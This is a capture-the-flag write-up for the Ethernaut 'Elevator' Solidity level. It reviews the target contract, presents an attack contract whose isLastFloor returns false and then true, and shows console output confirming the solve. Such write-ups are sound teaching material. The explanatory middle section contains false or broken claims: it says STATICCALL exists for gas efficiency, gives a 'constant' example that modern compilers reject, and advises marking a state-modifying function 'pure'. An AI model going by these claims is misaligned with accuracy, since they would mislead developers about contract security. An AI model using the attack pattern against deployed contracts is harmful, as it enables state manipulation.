 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg">


# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. 

- The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor.
- The **goTo** function is used to move the elevator to a specified floor.
- The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

## Missing State-Modifying Functions

Smart contracts are self-executing programs that automatically enforce the rules and regulations of a contract. One of the main advantages of smart contracts is that they are transparent and immutable, but this also means that once deployed, the code cannot be changed. Therefore, it is important to ensure that the code is secure before deployment.

One potential security pitfall in Solidity is the use of state-modifying functions that are incorrectly labelled as **constant/pure/view** functions. In Solidity versions prior to 0.5.0, it was possible to modify state variables within a constant/pure/view function using assembly code. However, in solc 0.5.0 and later versions, this is no longer possible due to the use of the **STATICCALL** opcode.

The STATICCALL opcode is a **read-only call** that is similar to the CALL opcode, but with the added constraint that **it does not modify the state of the contract**. This opcode was introduced to **improve gas efficiency by allowing the EVM to avoid the overhead of tracking the modifications made by a function**. However, this also means that any state-modifying code that is executed within a function labelled as constant/pure/view will now result in a revert.

For example, consider the following Solidity code:

```solidity
pragma solidity >=0.5.0;

contract MyContract {

  uint256 public myVar;

  function myFunction(uint256 _value) public constant returns (uint256) {
      myVar = _value;
      return myVar;
  }
}
```
This code defines a contract with a public state variable myVar and a state-modifying function myFunction that sets the value of myVar. However, the myFunction function is labelled as constant, which is incorrect because it modifies the state of the contract.

When this contract is compiled with solc 0.5.0 or later, attempting to call the myFunction function will result in a revert because of the use of the STATICCALL opcode. The correct way to label this function would be to remove the constant keyword and label it as **pure** instead, since it does not read or modify the state of the contract.

## Security Practice

There are different ways of missing state-modifying functions that we may come accross in smart contract auditing. What is more, this issue causes a gas increment so you can notify this bug in your report. In this challenge, the **isLastFloor()** function should be marked as `view` for prevent the any dangerous override action.

Let's look at these contract examples to understand better.

```solidity
interface Building {
  function isLastFloor(uint) external returns (bool);
}

// Vulnerable Code
```

```solidity
interface Building {
  function isLastFloor(uint) external view returns (bool);
}

// Safe Code
```

As you can see, it is easy to stay secure. The important point is to check the function's features correspond to the process in the function and not neglect to use gas-safer opcodes. You can get more information about opcodes from [here.](https://ethereum.org/en/developers/docs/evm/opcodes/)

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }
}
```

In our attack contract, firstly we defined an interface named **IElavator** which will help us to call **goTo()** function from the target contract. Secondly, we have boolean type of a **x** variable which defined as false when the defination. Next, we have an **attack()** function that takes a target contract's address as an argument. It creates an instance with **IElevator** interface and call the **goTo()** function from this instance. Finally, there is **isLastFloor()** function which will have call from our **goTo()** function to check the last floor. But, when its first check, the function returns false and bypass the `! building.isLastFloor(_floor)` statement. In the second check, it returns true and set top vairable as true. Thus, we will solve the challenge.

In the first step, get new instance from the ethernaut and check the top variable's value.

```shell
await contract.top()
false
````

Deploy our attack contract and start to attack. You can get this tx from [here.](https://sepolia.etherscan.io/tx/0x11d571b1449c9fd3c48bf3aedfe8bd0d6eb968ed726ee921de4605ec37e39cb8)

After then, check the top's value again. We solved the elevator challenge.

```shell
await contract.top()
true
```

Ethernaut's message:

>You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats. An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

**_by wasny0ps_**
